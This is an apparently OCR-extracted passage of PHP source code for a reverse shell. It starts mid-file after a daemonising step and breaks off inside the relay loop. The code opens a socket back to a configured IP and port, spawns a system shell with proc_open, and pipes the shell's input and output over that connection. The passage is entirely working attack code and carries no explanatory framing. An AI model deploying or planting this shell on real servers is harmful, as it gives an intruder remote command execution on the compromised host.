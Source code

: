 ``` php

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
```